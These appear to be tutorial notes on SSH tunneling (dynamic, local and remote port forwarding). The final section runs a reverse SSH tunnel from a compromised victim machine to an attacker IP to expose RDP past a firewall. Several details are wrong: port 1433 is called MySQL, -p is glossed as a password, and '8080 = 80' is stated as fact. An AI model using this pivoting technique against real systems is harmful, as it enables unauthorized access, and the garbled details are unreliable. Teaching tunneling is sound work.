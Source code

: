 # 5.2 SSH Tunneling

## SSH Tunneling

![](../.gitbook/assets/image%20%2865%29.png)

* Here the,
  * delivery protocol is SSH on port 22.
  * and main communication happens on port 1433 \(default MySQL port\).

## There are three ways of SSH tunneling

1. Dynamic SSH tunneling
2. Local port forwarding using SSH tunneling
3. Remote port forwarding using SSH tunneling

## Dynamic SSH tunneling

* We need to setup a SOCKS proxy,
  * We first need a **proxy server on client side**.
  * We then need to configure the other end of the communication to accept traffic.
* We then need to either configure all application configurations manually or automatically to "tell all applications to use the client side SOCKS proxy for communication". 
* So all the requests of internet are now sent to proxy.

### Dynamic SSH tunneling using SSH

```text
ssh -D 85 user@192.168.1.1
```

* The above commands configures an SSH Tunnel
  * -D bind port. Which specifies the delivery connection port.
  * one end \(local\) of the SSH tunnel is the system where the above command is executed. the other end is 192.168.1.1 using username "user".

![SSH -D option description](../.gitbook/assets/image%20%2816%29.png)

![SSH Tunneling - Dynamic](../.gitbook/assets/image%20%2848%29.png)

* Here,
  * the delivery protocol is 22 \(SSH\)
  * and main communication protocol is 844.
* Examples of dynamic SSH tunneling are
  * Psiphon
  * Tor Browser

## SSH tunneling Local Port forwarding

* Unlike Dynamic SSH proxy server we do not have to create a client side proxy server here. Infact we do not need a proxy server. All things are done by SSH tunneling itself. 
* On our client machine we will open URL _http://127.0.0.1:8080_.
* Note that 8080 = 80. Actually by 8080 we are just asking to use http service.
* This request will be internally tunneled on port 53 by configured SSH tunnel.
* We have a similar relay server which helps as communicator.

![SSH Tunneling - Local Port forwarding](../.gitbook/assets/image%20%2837%29.png)

### Example of local port forwarding

1. Remote desktop \(using vnc for ubuntu\)

## SSH Tunneling Remote Port forwarding

* Given we RDP ports are not allowed through firewall means 3389 and 2290 are blocked at firewall level.
* And given only port 53 is allowed.
* Given that the victim machine has RDP services active and running on port 3389.
* We will use SSH port tunneling technique to talk directly to the server. We do not need relay server in this kind of exploits.

### Working

* Suppose we have got access to victim machine which is inside a protect environment. The victim machine has a private IP address, so we cannot directly access RDP of machine.
* Given that in victim machine RDP service \(3389\) is running.
* We first create a reverse SSH Tunnel for tunneling port 3389 \(RDP port\). We need to run this command on the victim machine.
  * `ssh -R 7000:127.0.0.1:3389 user@212.33.40.5 -p abcd1234`
    * `abcd1234` is the password of the attacker machine
    * `212.33.40.5` is a public IP address of the attacker machine
    * `3389` is the mail communication protocol. The service is running on victim system.
    * `7000` is the port which the attacker will use to access the tunneled RDP connection.
* Once the SSH tunnel is created, a service is automatically started on the attacker machine \(note that we specified username and password of attacker machine\). 
  * `service : 0.0.0.0:7000`
* Now to access the remote console of the victim system.
  * `rdesktop 127.0.0.1:7000`

![](../.gitbook/assets/image%20%2867%29.png)




